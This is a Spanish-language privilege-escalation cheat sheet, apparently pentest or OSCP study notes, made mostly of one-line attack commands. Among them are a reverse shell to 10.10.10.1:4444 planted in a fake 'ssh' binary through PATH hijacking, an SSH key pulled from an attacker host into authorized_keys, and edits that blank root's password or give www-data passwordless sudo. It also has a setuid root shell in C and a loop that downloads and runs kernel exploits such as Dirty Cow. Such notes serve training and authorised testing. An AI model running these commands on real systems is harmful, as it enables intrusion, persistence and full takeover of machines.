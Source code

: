 # Elevacion de privilegios LINUX

## Spawing shell

1) Shell interactiva --> `python -c 'import pty; pty.spawn("/bin/sh")'; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; export TERM=xterm; export SHELL=bash`

2) Add public key to authorized keys  --> `echo $(wget http:/$LHOST/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys`

## Informacion SO

3) Distribucion de linux y version --> `cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;`

4) Arquitectura de sistema y kernel --> `$ cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release`

5) Variables de entorno             --> `cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set`

## Directorios y procesos

6) Bit SUID y SGID                  --> `printf "-------SUID-------\n\n"; find / -perm -u=s -type f 2>/dev/null; printf "-------GUID-------\n\n"; find / -perm -g=s -type f 2>/dev/null`

7) Listar los procesos corriendo como root, permisos y NFS exports --> `echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null`

8) Listar directorios con permisos de lectura, escritura y ejecución --> 
<pre>
Permisos de W    -->  find / -writable -type d 2>/dev/null
Permisos de W    -->  find / -perm -222 -type d 2>/dev/null
Permisos de W    -->  find / -perm -o w -type d 2>/dev/null    
Permisos de X    -->  find / -perm -o x -type d 2>/dev/null
Permisos de W+X  -->  find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
Permisos de R    -->  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print
</pre>


9) Encontrar binarios interesantes             -->  `find / -name wget; find / -name nc*; find / -name netcat*; find / -name tftp*; find / -name ftp`

## Reconocimiento automatico

10) LinuxPrivChecker --> `cp $OSCP/escalacion/linuxprivchecker.py lpc.py`

11) Linux Exploit Suggester --> `cp $OSCP/escalacion/les.sh .`

12) Linux Exploit Suggester perl --> `cp $OSCP/escalacion/Linux_Exploit_Suggester.pl les.pl`

## Utilidades

13) Alterar el PATH para un fichero SUID que invoca a otro --> `set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"; echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh ; chmod +x ssh`

14) Generar una shell con SUID --> `echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c`

15) Si /etc/passwd tiene permisos incorrectos --> `echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su`

16) Añadir al usuario www-data a sudoers sin password --> `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

17) Compartir carpeta RDP --> `rdesktop -u <USUARIO> -p <CONTRASEÑA> <IP> -r disk:remote_folder=<LOCAL_PATH> -g $(xrandr -q | awk '/ connected / {print $4;exit}' | awk -F "x" '{print int($1/1.05)"x"int($2/1.1)}')`


## Compilacion

18) Incluir path --> `gcc -B /usr/bin file.c -o compiled`

19) Solucionar error de target  --> `gcc file.c -o compiled -Wl,--hash-style=both`

## Exploits satisfactorios

20) __Exploits precompilados para Linux__ https://github.com/lucyoa/kernel-exploits  `git clone https://github.com/lucyoa/kernel-exploits.git` 

21) __CLAVE: Windows exploits precompilados__ https://github.com/SecWiki/windows-kernel-exploits

22) __CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8__ https://www.exploit-db.com/exploits/15285

23) __Linux Kernel <= 2.6.37 'Full-Nelson.c'__ https://www.exploit-db.com/exploits/15704/

24) __CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)__ https://git.zx2c4.com/CVE-2012-0056/about/

25) __Linux CVE 2012-0056__ `wget -O mem.c http://www.exploit-db.com/download/18411; gcc -o mem mem.c`

26) __CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8__ https://dirtycow.ninja/ `g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil`
`wget https://www.exploit-db.com/download/40839 -O dirty.c; gcc -pthread dirty.c -o dirty -lcrypt`

27) __Linux 2.6.32__ https://www.exploit-db.com/exploits/15285/ 

28) __CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)__ 
<pre>
wget -O 14814.c http://www.exploit-db.com/download/14814
gcc 14814.c -o can
</pre>

29) __Elevation in 2.6.x__ `for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://$LHOST/$a; chmod +x $a; ./$a; id; done`

# Elevacion de privilegios WINDOWS

## Utilidades
20) Ejemplo escapado de caracteres en Windows --> `echo net user rady rady /add 1^> "C:\Documents and Settings\Backup\net4.log" 2^>^&1 > backup-python.cmd`